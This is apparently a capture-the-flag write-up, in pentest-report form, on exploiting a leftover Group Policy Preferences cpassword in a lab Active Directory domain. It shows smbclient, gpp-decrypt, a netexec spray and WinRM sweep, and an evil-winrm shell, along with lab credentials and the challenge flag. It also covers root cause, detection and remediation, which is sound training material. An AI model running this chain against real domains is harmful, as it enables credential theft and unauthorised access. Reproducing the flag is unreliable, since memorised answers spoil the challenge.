








**Category:** Misconfig | **Difficulty:** Easy | **Flag:** <details><summary>reveal</summary><code>EPI{cp4zzw0rd_15_N07_5ECURe_d4MN_Y0U_m1CR050f7}</code></details>

> Description: *"AES is secure, but a well-known static key is a BIG
> problem."*

Working log: `challenges/reversable-encryption.md`.

## Executive Summary

A leftover Group Policy Preferences (GPP) file on the domain's SYSVOL share
contained an encrypted `cpassword` attribute for an account named
`r.singh` ("Legacy backup account"). GPP's encryption scheme uses a single
AES-256 key that Microsoft published in its own developer documentation,
making any `cpassword` value trivially reversible regardless of its
apparent strength — this is the finding the challenge description points
at directly. Decryption recovered a working credential
(`r.singh:Th1s_Is_S3cur3_bEc4uS3_AES`). BloodHound/LDAP-derived graph data
showed this account as a complete dead end: no outbound ACEs, no
privileged group membership, not local admin on any host, per the
collected data. That picture was incomplete: a manual, host-by-host WinRM
test (not derived from the graph) found `r.singh` has genuine WinRM access
on **PROCYON** (`10.42.0.106`) via local `Remote Management Users`
membership — invisible to the BloodHound collection because PROCYON's
DCE/RPC enumeration had silently failed during collection
(`STATUS_TRUSTED_RELATIONSHIP_FAILURE`) without surfacing that failure as
an actionable gap. An interactive WinRM session on PROCYON produced the
flag directly from the account's Desktop.

## Investigation & Technical Analysis

### Technical Incident Overview

Group Policy Preferences allowed administrators to push local account
credentials to domain-joined machines, storing the password AES-256
encrypted in a `cpassword` attribute inside `Groups.xml` (and equivalent
XML files for `ScheduledTasks`, `Services`, `Drives`, `DataSources`).
Microsoft published the fixed AES key used for this encryption in MSDN
documentation, which means any `cpassword` value — regardless of the
underlying password's actual strength — can be decrypted by anyone who can
read the file, using a single static key with no brute-forcing involved.
Microsoft shipped a fix (MS14-025) preventing *new* credentials from being
pushed this way, but pre-existing GPP XML files containing `cpassword`
are not automatically removed and remain exploitable indefinitely. This is
the well-documented **T1552.006 – Unsecured Credentials: Group Policy
Preferences** technique.

### Scope & Methodology

- **Target domain:** HOUNDLABS.EPI, DC01 at `10.42.0.42`.
- **Starting credential:** `pentester:Password123!`.
- **Tools used:** `smbclient` for SYSVOL enumeration, `gpp-decrypt` for
  `cpassword` decryption, `netexec` for credential validation and the
  per-host/protocol access sweep, `bloodhound-python` + raw JSON analysis
  for the (ultimately incomplete) graph-based privilege check,
  `evil-winrm` for the resulting interactive shell.
- **Enumeration approach:** full recursive SYSVOL listing → search for all
  GPP file types known to carry `cpassword`
  (`Groups.xml`/`ScheduledTasks.xml`/`Services.xml`/`Drives.xml`/`DataSources.xml`)
  → decrypt any found → validate the credential → BloodHound/LDAP-derived
  privilege check → **manual, host-by-host protocol testing as a
  cross-check**, since the graph data was later found to be incomplete for
  at least one host.
- **Evidence sources:** command output reproduced below;
  `challenges/reversable-encryption.md` (full working log, including an
  extended false-start phase around flag-format guessing, documented but
  intentionally not part of the attack chain below).

### Attack Chain & Detailed Findings

**1. SYSVOL enumeration and GPP discovery (T1552.006).**

```sh
smbclient -N //10.42.0.42/SYSVOL
```

(Anonymous share listing is blocked, but `pentester` credentials work.) A
full recursive listing confirmed only one of the domain's two GPOs
contains a `Preferences` directory with GPP XML content:

```
\HOUNDLABS.EPI\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Preferences\Groups\Groups.xml
```

`Groups.xml` defines a user `r.singh` (description: "Legacy backup
account") with:

```xml
cpassword="Srj9EoSKts/dL7kTjG3pRyxhLvgHR/BibBSdHNIyA60="
```

A follow-up pass checked for the other GPP file types that can also carry
a `cpassword` (`ScheduledTasks.xml`, `Services.xml`, `Drives.xml`,
`DataSources.xml`) — none exist anywhere in SYSVOL, confirming this is the
only credential-bearing GPP artifact in the domain.

**2. Decryption using Microsoft's published static key.**

```sh
gpp-decrypt 'Srj9EoSKts/dL7kTjG3pRyxhLvgHR/BibBSdHNIyA60='
# Th1s_Is_S3cur3_bEc4uS3_AES
```



Recovered credential: `r.singh:Th1s_Is_S3cur3_bEc4uS3_AES`.

**3. Credential validation.**

```sh
netexec smb 10.42.0.42 -u r.singh -p 'Th1s_Is_S3cur3_bEc4uS3_AES'
# [+] HOUNDLABS.EPI\r.singh:Th1s_Is_S3cur3_bEc4uS3_AES
```



Valid, but not flagged as local admin on DC01. A domain-wide password-reuse
spray (`netexec smb 10.42.0.42 -u users.txt -p 'Th1s_Is_S3cur3_bEc4uS3_AES' --continue-on-success`)
confirmed this password is unique to `r.singh` — ruling out reuse as a
further pivot.

**4. Graph-based privilege check — incomplete, later found misleading.**
`bloodhound-python` collection (`-c all`) succeeded via LDAP (Kerberos TGT
failed due to attacker-side DNS resolution, fell back cleanly to NTLM).
Raw JSON analysis of `r.singh`'s object showed:

- `MemberOf: null`, `PrimaryGroupSID` = 513 (Domain Users only).
- Zero outbound ACEs (`Aces` array) anywhere in the collection as
  `PrincipalSID`.
- `LocalAdmins` empty on all 7 computers except DC01 (built-in groups
  only, not `r.singh`).
- `hasspn: false`, no `AllowedToDelegate` — not Kerberoastable, no
  delegation angle.

All 6 non-DC computers had failed DCE/RPC enumeration during collection
with `STATUS_TRUSTED_RELATIONSHIP_FAILURE` — logged at the time as a
collection-quality caveat, not immediately recognized as hiding a real
privilege edge.

**5. Manual host-by-host cross-check — the actual breakthrough.** Rather
than treat the graph's "no access anywhere" conclusion as final, every
host was tested directly and individually for WinRM access as `r.singh`:

```sh
netexec winrm 10.42.0.42 10.42.0.157 10.42.0.109 -u r.singh -p 'Th1s_Is_S3cur3_bEc4uS3_AES'
# DC01/SIRIUS/SKOLL — all [-] denied

netexec winrm 10.42.0.102 10.42.0.106 10.42.0.130 -u r.singh -p 'Th1s_Is_S3cur3_bEc4uS3_AES'
# ARGOS   10.42.0.102 — [-] denied
# PROCYON 10.42.0.106 — [+] (admin)
# ANUBIS  10.42.0.130 — [-] denied
```





`r.singh` has WinRM access on PROCYON specifically — the exact host whose
BloodHound collection had silently failed. This is **not** a false
positive: the subsequent interactive session confirmed it is real
PSRemoting access via local `Remote Management Users` membership
(verified below), not full local-admin group membership — `netexec`'s
`(admin)` tag means "can log in and execute via WinRM," which is a weaker
condition than full `BUILTIN\Administrators` membership and should not be
conflated with it.

**6. Interactive access and flag retrieval.**

```sh
evil-winrm -i 10.42.0.106 -u r.singh -p 'Th1s_Is_S3cur3_bEc4uS3_AES'
*Evil-WinRM* PS> whoami /groups
# Remote Management Users, Users — NOT BUILTIN\Administrators
*Evil-WinRM* PS> dir C:\Users\r.singh\Desktop
# flag12.txt
*Evil-WinRM* PS> cat C:\Users\r.singh\Desktop\flag12.txt
```







<details><summary>Flag (spoiler — click to reveal screenshot and value)</summary>



```
EPI{cp4zzw0rd_15_N07_5ECURe_d4MN_Y0U_m1CR050f7}
```

</details>

**MITRE ATT&CK mapping:**

| Technique | ID | Step |
|---|---|---|
| Unsecured Credentials: Group Policy Preferences | T1552.006 | Steps 1–2 |
| Valid Accounts | T1078.002 | Steps 3, 5–6 |
| Remote Services: Windows Remote Management | T1021.006 | Steps 5–6 |

**Attacker operational security (would this have been flagged by a blue
team?):** The discovery and decryption steps are both silent — reading
`Groups.xml` from SYSVOL is an ordinary, expected file access (every
domain-joined machine reads SYSVOL routinely via Group Policy
processing, so one more authenticated read blends in completely), and
decrypting the `cpassword` locally with the publicly known AES key
generates no network or host event at all. As with the description-field
leak, the only detectable moment is the credential's *subsequent use* —
and here that use was itself initially mis-assessed: the first
investigation concluded `r.singh` had no meaningful access anywhere,
because the host×protocol sweep that would have caught the PROCYON
WinRM access was incomplete (only tested a subset of hosts). From a
blue-team perspective this is a useful illustration that **a defender's
own assessment coverage gaps mirror an attacker's own reconnaissance
gaps** — the same incomplete picture that let the original session
believe this credential was a dead end would, in a real incident
response, equally let a defender under-scope their own investigation of
what a compromised account could reach.

### Root Cause Analysis

The primary root cause is a leftover **GPP `cpassword`** artifact — a
credential pushed via a mechanism Microsoft deprecated specifically
because its encryption key is public, left in SYSVOL with no process to
find and remove such files after the feature's retirement. The password's
own apparent complexity is irrelevant; the encryption scheme provides
zero real protection once the key is known.

A secondary, independently significant root cause surfaced during this
investigation: `r.singh`'s real privilege (WinRM/PSRemoting rights on
PROCYON via GPO-driven `Remote Management Users` membership) was
**invisible to the BloodHound/LDAP-derived privilege graph**, because
PROCYON's DCE/RPC-based enumeration silently failed
(`STATUS_TRUSTED_RELATIONSHIP_FAILURE`) during collection. The collection
tool reported `Collected: true` for this host without flagging that its
local-group membership data was actually empty/incomplete — a false sense
of completeness that could easily lead an assessment to incorrectly
conclude this account has no further value.

### Indicators of Compromise

- **Account:** `r.singh` (description: "Legacy backup account")
- **Compromised host:** PROCYON, `10.42.0.106` (WinRM via
  `Remote Management Users`, not full local-admin group membership)
- **Domain:** HOUNDLABS.EPI, DC01 `10.42.0.42`
- **Artifact:** `\\HOUNDLABS.EPI\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Preferences\Groups\Groups.xml`,
  containing the `cpassword` value
  `Srj9EoSKts/dL7kTjG3pRyxhLvgHR/BibBSdHNIyA60=`
- **Collection gap:** BloodHound/`bloodhound-python` collection against
  PROCYON failed DCE/RPC enumeration (`STATUS_TRUSTED_RELATIONSHIP_FAILURE`)
  without surfacing this as an actionable data-quality warning — any
  assessment relying solely on this graph would have missed `r.singh`'s
  real access entirely.
- **Relevant Windows Event IDs (for detection, not observed in this
  lab):** Event ID `5136` (directory object modified) on `Groups.xml` if
  ever re-created, plus standard GPP-scanning tools (PowerSploit's
  `Get-GPPPassword`, `netexec`'s `gpp_password` module) as a proactive
  detective control rather than a reactive log signature.
- **Credential:** `r.singh:Th1s_Is_S3cur3_bEc4uS3_AES` (lab-state value —
  treat as ephemeral, not a durable IoC)

## Impact Analysis

- **Severity (illustrative CVSS v3.1 vector):**
  `AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H` — **~8.8 (High)**. Reading the GPP
  file itself requires only a low-privilege authenticated domain account
  (`PR:L`), decryption requires no brute-forcing (publicly known key), and
  the resulting credential grants interactive remote code execution on a
  host.
- **Blast radius:** WinRM access on PROCYON grants an interactive
  PowerShell session as `r.singh` on that host, with whatever further
  local privileges or cached material are reachable from there — a
  meaningful foothold despite the account's apparent total lack of AD
  privilege. More broadly, this finding demonstrates that **assessment
  methodology itself has a gap**: any host with a broken domain trust
  relationship can silently produce an incomplete BloodHound collection,
  meaning other accounts in this environment (or any environment using
  the same collection approach) could have similarly hidden access that a
  graph-only analysis would miss.
- **Compounding factor:** this is a second independent instance in this
  engagement (alongside the `catastrophic-failure`/`instructions-unclear`
  findings) of host-local privilege being completely absent from AD-level
  visibility — reinforcing that a credential's value in this environment
  cannot be assessed from directory data alone.
- **Business/legal consequence:** GPP cpassword exposure is one of the
  most well-known, actively-scanned-for AD misconfigurations in the
  industry (a standard check in every major pentest methodology and AD
  security baseline); its continued presence represents a baseline
  hardening failure independent of this specific lab context.

## Remediation & Recommendations

**Priority 1 — close the exposure:**
- Locate and remove every GPP XML file containing a `cpassword` attribute
  across SYSVOL (`Groups.xml`, `ScheduledTasks.xml`, `Services.xml`,
  `Drives.xml`, `DataSources.xml`).
- Rotate `r.singh`'s password; audit whether this account is still needed
  at all, given its "Legacy backup account" description.
- Confirm MS14-025 is applied domain-wide (prevents *new* credentials from
  being pushed via GPP, though it does not remove existing files).

**Priority 2 — detection:**
- Run a proactive, recurring scan for GPP `cpassword` artifacts
  domain-wide (`netexec`'s `gpp_password` module or equivalent) as a
  standing control, not a one-time check.
- Audit `Remote Management Users` group membership on every host via GPO,
  specifically — this is how `r.singh` obtained WinRM rights on PROCYON,
  and the same mechanism could grant unintended access to other accounts
  on other hosts.

**Priority 3 — structural / methodology:**
- **Do not treat a BloodHound/graph-only "no access found" result as
  conclusive for any host whose collection logged an enumeration failure**
  (`STATUS_TRUSTED_RELATIONSHIP_FAILURE` or similar). Cross-check such
  hosts with direct, manual protocol testing before concluding a
  credential is a dead end — this was the actual breakthrough step in
  this investigation.
- Fix the underlying broken domain-trust relationships on affected hosts
  (PROCYON and others) so future collections are complete and this class
  of blind spot doesn't recur.
- Treat GPO-driven local group membership (e.g. `Remote Management Users`)
  as a privilege-path category in its own right during assessments, not
  just explicit AD group membership or ACEs.

## Appendices

- **A. Command transcript:** SYSVOL enumeration, `gpp-decrypt`, credential
  validation, BloodHound collection/analysis, the manual host-by-host
  WinRM sweep, and `evil-winrm` flag retrieval — see Attack Chain section
  above for full commands and output.
- **B. Working log:** `challenges/reversable-encryption.md` — includes an
  extended false-start phase (rejected guesses at wrapping the decrypted
  password directly as the flag, e.g. `EPI{Th1s_Is_S3cur3_bEc4uS3_AES}`)
  before the project's flag model was clarified (flags are always found as
  a literal file, never derived from a credential) — kept in the working
  log for completeness, intentionally not part of this write-up's attack
  chain.
- **C. Screenshots:** terminal captures embedded inline above
  (`assets/01-gpp-decrypt.png` through `assets/08-flag-retrieved.png`,
  captured 2026-10-25). Still TODO: a capture of the raw `Groups.xml`
  content itself, and a diagram contrasting what the BloodHound graph
  reported (no access) against the real access found manually, to
  illustrate the collection-blind-spot lesson.
